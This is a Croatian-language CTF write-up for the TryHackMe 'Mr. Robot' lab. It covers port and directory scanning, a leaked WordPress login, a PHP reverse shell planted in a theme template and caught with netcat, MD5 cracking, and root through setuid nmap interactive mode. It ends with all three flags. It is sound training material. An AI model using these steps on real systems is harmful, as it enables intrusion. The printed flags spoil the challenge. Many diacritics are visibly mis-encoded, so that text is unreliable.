


<p align="center">
  
</p>

<p align="center">
  <b>🤖 TryHackMe Mr. Robot CTF 🤖</b>
</p>


Mo쬰mo li hakirati Mr. Robot CTF? Ova virtualna mašina ima ocjenu **srednje te쬴ne** i naučit će nas mnogim korisnim stvarima.

Upute će pomoći u postizanju istih odgovora.

Korišteni programi:

>+ **OpenVPN** 
>+ **NMAP**
>+ **GoBuster**
>+ **Netcat**


## Upute

Da bismo počeli hakirati ovu virtualnu mašinu, prvo se moramo spojiti na TryHackMe OpenVPN i pokrenuti stroj u Zadatku 2. 

*Pretpostavljam da je vaša lokalna virtualna mašina s [Kali Linux](https://www.kali.org/)  operativnim sustavom.*

## Uspostavljanje veze putem OpenVPN-a

Prvo moramo preuzeti [OpenVPN](https://tryhackme.com/access) datoteku s TryHackMe-a koju su vam dali. Zatim uključite terminal u direktoriju gdje ste preuzeli OpenVPN datoteku. Veza se ostvaruje pomoću:

> ```shell
> sudo openvpn *IME_VAŠE_DATOTEKE*.ovpn
> ```

## Skeniranje mre쬰

Prvo moramo pogledati koji su portovi otvoreni. 맚o više znamo o sustavu, to bolje. U ovom slučaju koristimo Nmap za skeniranje mre쬰.

### Nmap skeniranje

> ```shell 
> kali@kali:~/Desktop$ nmap *IP_ADRESA* -A
> ```    

### Rezultat Nmap skeniranja

> ```shell
> kali@kali:-/Desktop$ nmap 10.10.51.194 -A
> Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-23 18:35 CEST
> Nmap scan report for 10.10.38.44
> Host is up (0.095s latency).
> Not shown: 997 filtered ports
> PORT    STATE  SERVICE  VERSION
> 22/tcp  closed ssh
> 80/tcp  open   http     Apache httpd
> |_http-server-header: Apache
> |_http-title: Site doesn't have a title (text/html).
> 443/tcp open   ssl/http Apache httpd
> |_http-server-header: Apache
> |_http-title: Site doesn't have a title (text/html).
> | ssl-cert: Subject: commonName=www.example.com
> | Not valid before: 2015-09-16T10:45:03
> |_Not valid after:  2025-09-13T10:45:03    
>
>
> Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
> Nmap done: 1 IP address (1 host up) scanned in 34.90 seconds
> ```

Kao što vidimo, imamo otvoren port 80 koji nam govori da je ovo web stranica na HTTP protokolu.

### Instalacija seclists-a

> ```shell
> sudo apt install seclists
> ```

Nakon ove naredbe seclists će biti instaliran u direktorij **/usr/share/seclists/**.

### Skeniranje web poslu쬴telja i njegovih direktorija

> ```shell
> kali@kali:~/Desktop$ gobuster dir -u http://10.10.51.194/ -w /usr/share/seclists/Discovery/Web-Content/common.txt
> ===============================================================
> Gobuster v3.1.0
> by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
> ===============================================================
> [+] Url:                     http://10.10.51.194/
> [+] Method:                  GET
> [+] Threads:                 10
> [+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/common.txt
> [+] Negative Status codes:   404
> [+] User Agent:              gobuster/3.1.0
> [+] Timeout:                 10s
> ===============================================================
> 2021/05/23 18:27:45 Starting gobuster in directory enumeration mode
> ===============================================================
> /.hta                 (Status: 403) [Size: 213]
> /.htaccess            (Status: 403) [Size: 218]
> /.htpasswd            (Status: 403) [Size: 218]
> /0                    (Status: 301) [Size: 0] [--> http://10.10.51.194/0/]
> /Image                (Status: 301) [Size: 0] [--> http://10.10.51.194/Image/]
> /admin                (Status: 301) [Size: 234] [--> http://10.10.51.194/admin/]
> /atom                 (Status: 301) [Size: 0] [--> http://10.10.51.194/feed/atom/]
> /audio                (Status: 301) [Size: 234] [--> http://10.10.51.194/audio/]  
> /blog                 (Status: 301) [Size: 233] [--> http://10.10.51.194/blog/]   
> /css                  (Status: 301) [Size: 232] [--> http://10.10.51.194/css/]    
> /dashboard            (Status: 302) [Size: 0] [--> http://10.10.51.194/wp-admin/] 
> /favicon.ico          (Status: 200) [Size: 0]                                     
> /feed                 (Status: 301) [Size: 0] [--> http://10.10.51.194/feed/]     
> /images               (Status: 301) [Size: 235] [--> http://10.10.51.194/images/] 
> /image                (Status: 301) [Size: 0] [--> http://10.10.51.194/image/]    
> /index.php            (Status: 301) [Size: 0] [--> http://10.10.51.194/]          
> /index.html           (Status: 200) [Size: 1188]                                  
> /js                   (Status: 301) [Size: 231] [--> http://10.10.51.194/js/]     
> /intro                (Status: 200) [Size: 516314]                                
> /license              (Status: 200) [Size: 309]                                   
> /login                (Status: 302) [Size: 0] [--> http://10.10.51.194/wp-login.php]
> /page1                (Status: 301) [Size: 0] [--> http://10.10.51.194/]            
> /phpmyadmin           (Status: 403) [Size: 94]                                               
> /readme               (Status: 200) [Size: 64]                                               
> /rdf                  (Status: 301) [Size: 0] [--> http://10.10.51.194/feed/rdf/]            
> /robots               (Status: 200) [Size: 41]                                               
> /robots.txt           (Status: 200) [Size: 41]                                               
> /rss                  (Status: 301) [Size: 0] [--> http://10.10.51.194/feed/]                
> /rss2                 (Status: 301) [Size: 0] [--> http://10.10.51.194/feed/]                
> /sitemap              (Status: 200) [Size: 0]                                                
> /sitemap.xml          (Status: 200) [Size: 0]                                                
> /video                (Status: 301) [Size: 234] [--> http://10.10.51.194/video/]             
> /wp-admin             (Status: 301) [Size: 237] [--> http://10.10.51.194/wp-admin/]          
> /wp-content           (Status: 301) [Size: 239] [--> http://10.10.51.194/wp-content/]
> /wp-config            (Status: 200) [Size: 0]                                        
> /wp-includes          (Status: 301) [Size: 240] [--> http://10.10.51.194/wp-includes/]
> /wp-cron              (Status: 200) [Size: 0]                                         
> /wp-links-opml        (Status: 200) [Size: 227]                                       
> /wp-load              (Status: 200) [Size: 0]                                         
> /wp-login             (Status: 200) [Size: 2606]                                      
> /wp-mail              (Status: 500) [Size: 3064]                                      
> /wp-settings          (Status: 500) [Size: 0]                                         
> /wp-signup            (Status: 302) [Size: 0] [--> http://10.10.51.194/wp-login.php?action=register]
> /xmlrpc               (Status: 405) [Size:42]                                                      
> ===============================================================
> 2021/05/23 18:40:33 Finished
> ===============================================================
> ```


## Pronala쬰nje prvog ključa

Nakon skeniranja, mo쬰mo vidjeti više direktorija koje se nalaze na ovom web poslu쬴telju. Ako pogledamo TryHackMe savjet za prvi ključ, mo쬰mo vidjeti da je naš savjet **robots.txt**. Pretpostavljam da je ovaj savjet i **/robots** direktorij povezan. Pored njih me zanima **/wp-login**; Pretpostavljam da je to WordPress.

Ulaskom na stranicu **Unesite dobivenu IP adresu u svoj web preglednik**:

<p align="center">
   
</p>

Ali ako upišemo našu vezu **/robots.txt (IP_ADRESA/robots.txt)**, mo쬰mo vidjeti da izbacuje prvi ključ, koji je u .txt formatu.
      
<p align="center">
   
</p>

Pronašli smo dvije datoteke, jednu **fsociety.dic** i **key-1-of-3.txt**. Prva datoteka izgleda kao datoteka rječnika.

### Preuzimanje prvog ključa

Prvi ključ mo쬰mo vidjeti ulaskom na stranicu (http://IP_ADRESA/key-1-of-3.txt), ali ga mo쬰mo i preuzeti pomoću naredbe **curl**.

> ```shell
> curl -s http://IP_ADDRESS/key-1-of-3.txt
> ```

### Rezultat

> ```shell
> kali@kali:~/Desktop$ curl -s http://10.10.51.194/key-1-of-3.txt
>
> 073403c8a58a1f80d943455fb30724b9
> ```
   
**Prvi ključ:** `073403c8a58a1f80d943455fb30724b9`

## Pronala쬰nje drugog ključa

**SAVJET:** Bijeli tekst. 

Ako se vratimo na **gobuster** mo쬰mo vidjeti da smo imali **WordPress** direktorij. Konkretno me zanima:

> ```shell
> /login (Status: 302)
> /wp-content (Status: 301)
> /admin (Status: 301)
> /wp-login (Status: 200)
> /license (Status: 200)
> /wp-includes (Status: 301)
> ```
 
Kao što vidimo, direktorij **/license** ima status 200. Status 200 nam govori da je stranica aktivna. **Curl** je naš najbolji prijatelj u ovom slučaju.

### Curl komanda

> ```shell
> curl -s http://IP_ADDRESS/license | tr -d "\n"
> ```

### Rezultat

> ```shell
> kali@kali:~/Desktop$ curl -s http://10.10.51.194/license | tr -d "\n"
>     
> what you do just pull code from Rapid9 or some s@#% since when did you become a script kitty?do you want a    password or something?
>
> ZWxsaW90OkVSMjgtMDY1Mgo=
> ```

Određeni tekst je `ZWxsaW90OkVSMjgtMDY1Mgo=` izgleda kao **base64**.

### Dešifriranje Base64

Naredba koju ćemo koristiti je:

> ```shell
> echo "ZWxsaW90OkVSMjgtMDY1Mgo=" | base64 -d
> ```
     
### Rezultat dešifriranja Base64

> ```shell
> kali@kali:~/Desktop$ echo "ZWxsaW90OkVSMjgtMDY1Mgo=" | base64 -d
>
> elliot:ER28-0652
> ```
   
Korisničko ime i lozinku dobili smo, pretpostavljam, od WordPressa.

   
**Zanimljivost:** Kod je referenca na Elliotov broj s osobne iskaznice na poslu i pojavljuje se u seriji.


### WordPress enumeracija

Vrijeme je da se pokušamo prijaviti na WordPress:

Prvi korak je otići na:

> ```shell
> http://IP_ADRESA/wp-login
> ```

Nakon prijave na stranicu odmah u donjem lijevom kutu vidimo da je verzija WordPressa 4.3.1. Ovo je stara verzija WordPressa.

<p align="center">
   
</p>

Nalazimo dva korisnika, od kojih smo Elliot (mi) administrator.

<p align="center">
   
</p>

Vidimo da je ova stara verzija WordPressa ranjiva na **PHP Reverse Shell.** [**POVEZNICA SKRIPTE**](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master /php-reverse-shell.php)

Budući da smo administratori, moramo ići na Izgled.

<p align="center">
   
</p>

Moramo zamijeniti kod sa skriptom na 404 PHP predlošku. 

<p align="center">
   
</p>


**Napomena:** Obratite pozornost na IP adresu u kodu; ovdje imamo lokalnu IP adresu, tj. IP adresa našeg računala. Mo쬰mo provjeriti lokalnu IP adresu s `ifconfig`.


### PHP reverse shell preko netcat-a

Nakon što smo zamijenili i promijenili IP adresu u skripti, pokrenut ćemo **Netcat** na portu koji s nama uspostavlja vezu preko skripte. To radimo sljedećom naredbom:

> ```shell
> nc -nlvp 1234
> ```

Nakon toga, moramo otići na **http://IP_ADRESA/404.php** ovaj link u web pregledniku.

<p align="center">
   
</p>

Kao što vidimo, otvorili smo školjku u terminalu. Netcat je uspostavio vezu.

Sada ćemo provjeriti koje se datoteke nalaze u direktoriju **/home/robot**. To radimo naredbom:

> ```shell
> ls -l /home/robot
> ```

Sada znamo lokaciju drugog ključa: 

> ```shell
> $ ls -l /home/robot
> total 8
> -r-------- 1 robot robot 33 Nov 13  2015 key-2-of-3.txt
> -rw-r--r-- 1 robot robot 39 Nov 13  2015 password.raw-md5
> ```

Problem je u tome što mi uopće nismo `robot` korisnik na ovom sistemu. To provjeravamo naredbom `whoami`.

> ```shell
> $ whoami
> daemon
> ```

Jedina datoteka koju mo쬰mo vidjeti je `password.raw-md5`. Pogledajmo što je u ovoj datoteci.

> ```shell
> $ cat /home/robot/password.raw-md5
> robot:c3fcd3d76192e4007dfb496cca67e13b
> ```

### Dešifriranje MD5 hash-a

To je MD5 Hash. Hash je matematička funkcija koja se ne mo쬰 vratiti nakon što obavi svoj posao. Ovo je dobro za pohranjivanje lozinki, ali MD5 je star algoritam i lako ga je probiti.

Prvo ćemo pogledati mo쬰 li se ovaj hash provaliti online kako bismo uštedjeli vrijeme. [LINK](https://md5.gromweb.com/?md5=c3fcd3d76192e4007dfb496cca67e13b)

Kao što vidimo na gornjoj poveznici, mo쬰. **Zaporka** je `abcdefghijklmnopqrstuvwxyz`
   
Sada se moramo prijaviti kao `robot` korisnik. To radimo sljedećom naredbom:

> ```shell
> su - robot
> ```

Ali postoji problem: 

> ```shell
> $ su - robot
> su: must be run from a terminal
> ```

### Python shell

Ovo se mo쬰 popraviti pomoću Pythona. Prvo moramo provjeriti je li Python uopće instaliran.

> ```shell
> $ which python
> /usr/bin/python
> ```

Napravimo shell s Pythonom. To mo쬰mo učiniti ovom naredbom:

> ```shell
> python -c 'import pty; pty.spawn("/bin/sh")'
> ```

Kao što vidite, terminal nije pokazao nikakve pogreške, što znači da smo uspješno kreirali shell u Pythonu.

Prijavimo se kao korisnik `robot`.

> ```shell
> $ su - robot           
> su - robot
> Password: abcdefghijklmnopqrstuvwxyz
>
> $ whoami
> whoami
> robot
> $ 
> ```
      
Kao što vidimo, prijavljeni smo kao `robot` korisnik.

### Drugi ključ

Da bismo vidjeli drugi ključ, moramo upotrijebiti naredbu cat:

> ```shell
> cat key-2-of-3.txt
> ```

Rezultat:

> ```shell
> $ cat key-2-of-3.txt
> cat key-2-of-3.txt
> 822c73956184f694993bede3eb39f959
> ```

**Drugi ključ:** `822c73956184f694993bede3eb39f959`

   

## Pronala쬰nje trećeg ključa

**SAVJET:** NMAP
   
Ako se vratimo na Nmap rezultat koji smo dobili na početku; mo쬰mo vidjeti da je SSH port zatvoren. Konačni ključ uglavnom se nalazi u direktoriju `/root`. Da bismo dobili root, moramo izvršiti eskalaciju privilegija. Prvo što me zanima je da li je korisnik `robot` u takozvanoj sudo grupi.

### Eskalacija privilegija

Je li korisnik robot u sudo grupi? 

> ```shell
> $ sudo -l
> sudo -l
> [sudo] password for robot: abcdefghijklmnopqrstuvwxyz
>
> Sorry, user robot may not run sudo on linux.
> ```

Korisnik robot nije na popisu sa sudo privilegijama. Sada mo쬰mo vidjeti koji su programi pod `root` korisnikom.

#### Provjera SETUID-a koji su pod root kontrolom:

Naredba: 

> ```shell
> find / -user root -perm -4000 -print 2>/dev/null
> ```

Rezultat: 

> ```shell
> $ find / -user root -perm -4000 -print 2>/dev/null
> / -user root -perm -4000 -print 2>/dev/null
> /bin/ping
> /bin/umount
> /bin/mount
> /bin/ping6
> /bin/su
> /usr/bin/passwd
> /usr/bin/newgrp
> /usr/bin/chsh
> /usr/bin/chfn
> /usr/bin/gpasswd
> /usr/bin/sudo
> /usr/local/bin/nmap
> /usr/lib/openssh/ssh-keysign
> /usr/lib/eject/dmcrypt-get-device
> /usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
> /usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
> /usr/lib/pt_chown
> ```

Odmah sam primijetio `/usr/local/bin/nmap`. Da vidimo koja je to verzija Nmapa.

#### Provjera verzije Nmapa:

Naredba: 

> ```shell 
> nmap --version
> ```

Rezultat: 

> ```shell
> $ nmap --version
> nmap --version
>
> nmap version 3.81 ( http://www.insecure.org/nmap/ )
> ```

Kao što vidimo, Nmap verzija je **3.81**.

#### Enumeracija:

Nakon malo istra쬴vanja, saznao sam:

[LINK](https://pentestlab.blog/category/privilege-escalation/) kao što mo쬰mo pročitati na gornjoj poveznici, ovo je starija verzija Nmapa. Verzije od 2.02 do 5.21 imale su tzv. Interaktivni način nam je omogućio izvršavanje naredbi. Osim toga, provjera `SETUID` omogućit će nam pokretanje naredbi kao root.

> ```shell
> $ ls -l /usr/local/bin/nmap
> ls -l /usr/local/bin/nmap
> -rwsr-xr-x 1 root root 504736 Nov 13  2015 /usr/local/bin/nmap
> ```

#### Pokretanje Nmapa u interaktivnom modu:

Naredba:

> ```shell
> nmap --interactive
> ```

Rezultat: 

> ```shell
> $ nmap --interactive
> nmap --interactive
>
> Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
> Welcome to Interactive Mode -- press h <enter> for help
> nmap> !whoami
> !whoami
> root
> waiting to reap child : No child processes
> ```

Vidimo da je Nmap u interaktivnom root modu.

#### Pronala쬰nje konačnog ključa:

Prvo ćemo provjeriti je li treća zastavica u korijenu. 

Naredba:

> ```shell
> !ls /root
> ```

Rezultat: 

> ```shell
> nmap> !ls /root
> !ls /root
> firstboot_done  key-3-of-3.txt
> waiting to reap child : No child processes
> ```
      
Pronašli smo treći ključ koji se nalazi u tekstualnoj datoteci. Sadr쬬j mo쬰mo pročitati sljedećom naredbom:

> ```shell
> !cat /root/key-3-of-3.txt
> ```

> ```shell
> nmap> !cat /root/key-3-of-3.txt
> !cat /root/key-3-of-3.txt
> 04787ddef27c3dee1ee161b21670b4e4
> waiting to reap child : No child processes
> ```

**Treći ključ:** `04787ddef27c3dee1ee161b21670b4e4`

## Zaključak

Zanimljiv CTF s puno referenci na seriju. Puno sam naučio, a najva쬹ije je redovito a쬿riranje operativnih sustava i aplikacija, kao što vidimo u primjeru sa starijom verzijom `Nmapa` i `WordPressa`. Također, ne dopustite nikome da hakira vaše račune, redovito mijenjajte kodove i koristite nasumične kodove s minimalnom duljinom od 32 znamenke za svaki račun. Svatko bi trebao slijediti jednu lozinku, jedan račun i jednu adresu e-pošte.

## Ključevi

Popis pitanja i odgovora:

> | Pitanja | Odgovori |
> | ------- | -------- |
> | 맚o je ključ 1 ?  | <kbd> 073403c8a58a1f80d943455fb30724b9 </kbd>|
> | 맚o je ključ 2 ?  | <kbd> 822c73956184f694993bede3eb39f959 </kbd> |
> | 맚o je ključ 3 ?  | <kbd> 04787ddef27c3dee1ee161b21670b4e4 </kbd> |

## Hvala na vašem vremenu 💙

